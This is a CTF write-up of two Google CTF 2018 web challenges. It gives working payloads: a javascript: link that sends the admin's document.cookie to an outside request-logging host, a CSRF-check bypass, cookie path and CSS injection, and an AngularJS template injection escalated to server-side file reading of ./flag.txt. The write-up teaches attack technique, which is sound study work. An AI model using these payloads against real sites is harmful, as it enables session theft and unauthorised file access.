






Writeup of Main Challenges in Google CTF 2018.

These solutions describe my thought processes in entirety, and may not be the fastest/most efficient way of solving.

---

## Web

---

# Cat Chat

#### Category: Web | 46 solves | 210 points

<details>
  <summary>Challenge Description</summary>
  
  You discover this cat enthusiast chat app, but the annoying thing about it is that you're always banned when you start talking about dogs. Maybe if you would somehow get to know the admin's password, you could fix that. https://cat-chat.web.ctfcompetition.com/
</details>

#### Goal
Get the Flag value of the admin sent via the /secret command

#### Command Analysis

`/name $(value)` sets value of $(name). Note that you can set yourself as admin by `/name admin`.

`/report $(name)` leads to `/ban $(name)` , i.e. admin goes to your site when you report the person.

`/secret $(value)` sets the value of the `flag` cookie. There's no filter or sanitization so any character will be accepted.

#### Steps

##### 1. Payload in $(name)

`$(name)` is controllable. But it can't be so simple, can it?       
Let's try `/report javascript:location.href="//requestbin.net/xxx"+document.cookie`:

[csrf check fail img]

Doh! There's a CSRF header check. Let's try to bypass that.

##### 2. CSRF

We can bypass the CSRF header check which only checks the start of the http location `cat-chat.web.ctfcompetition.com` like this:      
`cat-chat.web.ctfcompetition.com.example.com`     
Creating a subdomain on my server, we can do `cat-chat.web.ctfcompetition.com.ylkoh.top` to see the requests being sent to our server.  
We'll also host a PHP file on it to echo the request:    
```
<?php
  echo $_GET[c];
?>
```
Sending the same request above `/report javascript:location.href="//example.com/x.php"+document.cookie`: 

Alas! We did not get any useful information in the request.
Well that was kinda expected.

#### 3. Concatenate multiple commands

One things I noticed from the server regex was that it took the request as long as it starts with `/xxx`.     
So, how about if we concatenate commands?

Let's try `/report /secret abc`, which leads to `/ban /secret abc` as seen earlier.

Using this payload: `/send?name=red_racoon&msg=/name/secret abc`, we get the following response:

[response image]

#### 4. Setting a path to /secret

Since the `/secret` command sets a cookie with the `PATH= /`, we can try setting the path by sending it as a part of the request.    
`send?name=brown_bombay&msg=%2Fsecret+hey;+Path=/lol_thats_funny`

Which sets the following cookie:
`Set-Cookie: flag=hey; Path=/lol_thats_funny; Path=/; Max-Age=31536000`

#### 5. CSS Injection

Looking through the catchat.js code again, there's actually a CSS Injection.      
```html
`/name a]{;}body{background:red;}span[data-name^=/report
```

Which leads to this message appearing for other users:    
```html
display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);
```


Generating this style in the CSS:      
```html
<style>span[data-name^=a]{;}body{background:red;}span[data-name^=a] { color: red; }</style>
```

Not sure if it's useful but we could possibly bypass any CSP headers (there aren't any) with that.    
However, we can also bypass CSRF Headers with this method, using `background: url(http://domain/send?msg=abcd)`

#### Summary

What do we know so far? 
* We must redirect the admin to our domain, so we need a CSRF Bypass
* Available commands are `/name /ban /secret /report`
* `/report` triggers a captcha so we cannot use that
* `/ban` allows any user to be banned, including the admin
* `/name` allows us to rename the admin

`flag=test; path=/some_weird_path` will trigger the relevant JS ``secret(data) { display(`Successfully changed secret to <span data-secret="${esc(cookie('flag'))}">*****</span>`); },``, showing the flag's path.

Cookie will take the path a `/`, not `/some_weird_path`. So we can set a cookie with a long value and it will ignore the second path.


<details>
  <summary>FLAG</summary>
  
  CTF{L0LC475_43V3R}
</details>

***

# Translate

#### Category: Web | 33 solves | 246 points

<details>
  <summary>Challenge Description</summary>
  
  Client-side rendering, but not in a browser! Get the flag in ./flag.txt, and seeing the source will likely help.
<br />
https://storage.googleapis.com/gctf-2018-attachments/960d43495561125d028a9b30d9a85bf333d3d5372868d8cbef6dca0d8ba2f6de
</details>

#### Goal

Get `./flag.txt` from within the template itself.



#### Page Analysis


###### `/?lang=fr` and `/?lang=en`:    

We've got a page that takes user input on both the English and French page. It prints out the queried word as shown below:

```
    <!----><div ng-if="userQuery">
      <!---->
      <!----><div ng-if="i18n.word(userQuery)">
        En francais, <b>$(frValue)</b> s'écrit <b ng-bind="i18n.word(userQuery)">$(enValue)</b>.
      </div><!---->
    </div><!---->
    <!---->
```

###### `/dump`:
Let's look at the source code to see if we can find where the input will be outputted.

```
    english dictionary: {"lang":"en","translate":"Translate","not_found":"I don't know that word, sorry.","in_lang_query_is_spelled":"In french, <b>\{\{userQuery}}</b> is spelled <b ng-bind=\"i18n.word(userQuery)\"></b>.","input_query":"What French word do you want to translate into English?<br/>A few examples: <a href=\"?query=informatique%20en%20nuage&amp;lang=en\">informatique en nuage</a>, <a href=\"?query=téléverser&amp;lang=en\">téléverser</a>","title":"Translation utility for technical terms in French and English","subtitle":"In the current pluri-polarized great powers context, internationalization is the key for good trans-border understanding between tech workers.","informatique en nuage":"cloud computing","mot-dièse":"hashtag","courriel":"email","téléverser":"upload","ordiphone":"smartphone","original_word":"Word to translate"} <hr/>
    french dictionary:  {"lang":"fr","translate":"Traduire","not_found":"Je ne connais pas ce mot, désolé.","in_lang_query_is_spelled":"En francais, <b>\{\{userQuery}}</b> s'écrit <b ng-bind=\"i18n.word(userQuery)\"></b>.","input_query":"Quel mot anglais voulez-vous traduire en français ? <br/>Quelques exemples : <a href=\"?query=cloud%20computing&amp;lang=fr\">cloud computing</a>, <a href=\"?query=upload&amp;lang=fr\">to upload</a>","title":"Application de traduction de termes techniques entre français et anglais","subtitle":"Dans notre contexte actuel de multipolarisation des puissances, l'internationalisation est critique au bon entendement transfrontalier des travailleurs des TIC.","upload":"téléverser","cloud computing":"informatique en nuage","hashtag":"mot-dièse","email":"courriel","original_word":"Mot à traduire"} <hr/>    
```

And we've found it on the `/debug` page. Notice where it says `input_query`? This is where the user-controlled value will be displayed. 
Take note of the `i18n.word(userQuery)` object as it may become important later in revealing the path to the `./flag.txt`.

###### `/addwords`:

Words can be added to the end of the array in `/dump`, as attempted in Step 1. It is stored in a "key":"value" format.



###### `/reset`:

Self-explanatory. Resets the challenge in case you are unable to undo the changes you've made.

##### Steps

###### 1. Finding the injection point

It looks like there might be a template injection, so let's try submitting the classic `\{\{7*7}}` payload.



Doh! Clearly we have to add it into the dictionary first. Also notice how `\{\{userQuery}}` is the element that outputted our input? There must be another way to write into the `input_query`.
Let's take a look at the HTTP request and see if we can manipulate it somehow:     
`GET /add?lang=fr&word=%7B%7B7*7%7D%7D&translated=%7B%7B7*7%7D%7D HTTP/1.1`

Both values are user-controlled. This is when I noticed that `input_query` is not an object, unlike `\{\{userQuery}}` - what if we wrote a translation for `input_query`?

`GET /add?lang=en&word=input_query&translated=\{\{7*7}}` gives us:



And we've got it! A successful template injection. Bug bounty hunters would be happy to get up to this step and would probably look for a way to break the Angular JS sandbox in order to get an XSS. But that's not our goal today.

###### 2. Experimenting with payloads

Let’s try other queries. How about `\{\{this}}`?



Hmm it just says that this is the $SCOPE. Which means that we must be in a constructor now. Maybe we could try to find other global variables too?

Using `\{\{constructor.constructor('return+global')()}}`,

```json
{
	"process": {
	"argv": [],
	"title": "node",
	"version": "v8.11.3",
	"versions": {
	"http_parser": "2.8.0",
	"node": "8.11.3",
	"v8": "6.2.414.54",
	"uv": "1.19.1",
	"zlib": "1.2.11",
	"ares": "1.10.1-DEV",
	"modules": "57",
	"nghttp2": "1.32.0",
	"napi": "3",
	"openssl": "1.0.2o",
	"icu": "60.1",
	"unicode": "10.0",
	"cldr": "32.0",
	"tz": "2017c"
	},
	"arch": "x64",
	"platform": "linux",
	"env": {},
	"pid": 83,
	"features": {
	"debug": false,
	"uv": true,
	"ipv6": true,
	"tls_npn": true,
	"tls_alpn": true,
	"tls_sni": true,
	"tls_ocsp": true,
	"tls": true
	}
	},
	"console": {}
	}
```

Gives us a list of global environment variables. I have formatted it to make it more legible. 

Notice that the angular variables are missing though - we're going to have to append the `angular` property to `global` using the following, adding the json property for legibility:

```javascript
\{\{[constructor.constructor('return+global')().angular=this,constructor.constructor('return+global')()]+|+json}}
```

The first element `\{\{[constructor.constructor('return+global')()` will be evaluated first, so this adds an angular attribute to the global object. By calling Angular we should be able to get the angular object.

```json
"$SCOPE",
	{
	"angular": "$SCOPE",
	"process": {
	"argv": [],
	"title": "node",
	"version": "v8.11.3",
	"versions": {
	"http_parser": "2.8.0",
	"node": "8.11.3",
	"v8": "6.2.414.54",
	"uv": "1.19.1",
	"zlib": "1.2.11",
	"ares": "1.10.1-DEV",
	"modules": "57",
	"nghttp2": "1.32.0",
	"napi": "3",
	"openssl": "1.0.2o",
	"icu": "60.1",
	"unicode": "10.0",
	"cldr": "32.0",
	"tz": "2017c"
	},
	"arch": "x64",
	"platform": "linux",
	"env": {},
	"pid": 83,
	"features": {
	"debug": false,
	"uv": true,
	"ipv6": true,
	"tls_npn": true,
	"tls_alpn": true,
	"tls_sni": true,
	"tls_ocsp": true,
	"tls": true
	}
	},
	"console": {}
	}
```

And we've gotten it! 

###### 3. Directory Traversal 
Now that we've confirmed the structure, we can access it using `.` like a regular angular element. Let’s get the property names of the angular attributes, appending `.getOwnPropertyNames(global.angular)')()` to the previous payload. 

```json
[ "$$childTail", "$$childHead", "$$nextSibling", "$$watchers", "$$listeners", "$$listenerCount", "$$watchersCount", "$id", "$$ChildScope", "$parent", "$$prevSibling", "$$transcluded" 
```

Now we have the angular attributes. Let’s move further up the directory with the $parent, which refers to the $scope of the parent element, using `.getOwnPropertyNames(global.angular.$parent.$parent)')()`

We get a 
```json
[
	"$SCOPE",
	"$SCOPE"
	]
```

Which means that both are valid controllers (constructors). Let’s try to find the i18n object with `$parent.$parent.i18n`.

```json
[
	"$SCOPE",
	null
	]
```

Hmm, that’s not quite it. Let’s try taking a step back and move up one level with `$parent.i18n`.

```json
[
	"$SCOPE",
	{}
	]
```

And we’ve got it! We’re now in the `i18n` object as denoted by `{}`. We should be able to enumerate templates now, so let’s try appending a template to it.

By calling `/en.json`, it leads us to:

```json
[
	"$SCOPE",
	"Couldn't load template: Error: ENOENT: no such file or directory, open './en.json'"
	]
```

Argh! We were so close! But let’s take a look at the previous code – we’re now in the template directory but trying to call a file from under `i18n`. So we should prepend `i18n/` to the directory name. 

```json
[
	"$SCOPE",
	"{\n \"lang\": \"en\",\n \"translate\": \"Translate\",\n \"not_found\": \"I don't know that word, sorry.\",\n \"in_lang_query_is_spelled\": \"In french, &lt;b&gt;\{\{userQuery}}&lt;/b&gt; is spelled &lt;b ng-bind=\\\"i18n.word(userQuery)\\\"&gt;&lt;/b&gt;.\",\n \"input_query\": \"What French word do you want to translate into English?&lt;br/&gt;A few examples: &lt;a href=\\\"?query=informatique%20en%20nuage&amp;amp;lang=en\\\"&gt;informatique en nuage&lt;/a&gt;, &lt;a href=\\\"?query=téléverser&amp;amp;lang=en\\\"&gt;téléverser&lt;/a&gt;\",\n \"title\": \"Translation utility for technical terms in French and English\",\n \"subtitle\": \"In the current pluri-polarized great powers context, internationalization is the key for good trans-border understanding between tech workers.\",\n \"informatique en nuage\": \"cloud computing\",\n \"mot-dièse\": \"hashtag\",\n \"courriel\": \"email\",\n \"téléverser\": \"upload\",\n \"ordiphone\": \"smartphone\",\n \"original_word\": \"Word to translate\"\n}\n"
	]

```

We’ve got the page that shows the English translation! Now that we can enumerate any file, it is time to go for the flag.

`GET /add?lang=en&word=input_query&translated=\{\{[constructor.constructor('return+global')().angular%3dthis,constructor.constructor('return+global.angular.$parent.i18n.template("./flag.txt")')()]+|+json}}`




And we've got the flag! 

**Final Payload:** `\{\{[constructor.constructor('return+global')().angular%3dthis,constructor.constructor('return+global.angular.$parent.i18n.template("./flag.txt")')()]+|+json}}`

<details>
  <summary>FLAG</summary>
  
  CTF{Televersez_vos_exploits_dans_mon_nuagiciel}
</details>

---
